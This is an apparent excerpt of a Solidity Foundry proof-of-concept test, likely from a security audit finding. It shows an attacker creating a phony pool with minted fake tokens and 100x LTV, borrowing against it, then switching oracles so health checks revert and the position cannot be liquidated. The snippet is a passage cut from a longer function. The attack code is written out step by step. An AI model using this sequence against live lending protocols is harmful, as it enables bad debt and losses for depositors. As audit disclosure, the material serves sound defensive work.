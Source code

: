 ```solidity
        riskEngine.setOracle(address(phonyPool), address(erc20Collat), riskEngine.oracleFor(address(pool), address(erc20Collat)));
        riskEngine.setLtv(address(phonyPool), address(erc20Collat), 100e18); // 100x ltv

        // mint fake tokens to self and deposit them into the pool
        fakeToken.mint(attacker, 1_000_000e18);
        fakeToken.approve(address(phonyPool), type(uint256).max);
        phonyPool.deposit(1_000_000e18, attacker);

        // create new position that will be made nonliquidatable
        SingleAssetPosition attackerPosition;
        bytes memory data;
        Action memory action;
        {
            uint256 POSITION_TYPE = 0x2;
            bytes32 salt = "AttackerSingleAssetPosition";
            attackerPosition = SingleAssetPosition(portfolioLens.predictAddress(POSITION_TYPE, salt));

            data = abi.encode(attacker, POSITION_TYPE, salt);
            action = Action({op: Operation.NewPosition, data: data});
            positionManager.process(address(attackerPosition), action);
        }

        // deposit 1e18 of collateral into position
        {
            vm.stopPrank();
            erc20Collat.mint(attacker, 1e18);
            vm.startPrank(attacker);
            erc20Collat.approve(address(positionManager), type(uint256).max);

            data = abi.encode(attacker, address(erc20Collat), 1e18);
            Action memory action1 = Action({op: Operation.Deposit, data: data});
            Action memory action2 = Action({op: Operation.AddAsset, data: abi.encode(address(erc20Collat))});
            Action[] memory actions = new Action[](2);
            actions[0] = action1;
            actions[1] = action2;

            positionManager.processBatch(address(attackerPosition), actions);
        }

        // borrow 2000e18 of fake tokens (USD price = 1/4000 of ETH, so easily healthy)
        data = abi.encode(address(phonyPool), 2000e18);
        action = Action({op: Operation.Borrow, data: data});
        positionManager.process(address(attackerPosition), action);

        // we can transfer out the fake token because we're sufficiently collateralized
        data = abi.encode(address(1), address(fakeToken), 2000e18);
        action = Action({op: Operation.Transfer, data: data});
        positionManager.process(address(attackerPosition), action);

        // but now if we increase the value of the debt, we can make it worth more than the assets
        riskEngine.setOracle(address(phonyPool), address(fakeToken), address(ethOracle));

        // now all calls to isPositionHealthy will revert
        vm.expectRevert();
        riskEngine.isPositionHealthy(address(attackerPosition));

        // attacker can change oracle back to make transactions, and then reset for liquidation protection
        riskEngine.setOracle(address(phonyPool), address(fakeToken), address(usdOracle));
        riskEngine.isPositionHealthy(address(attackerPosition));
```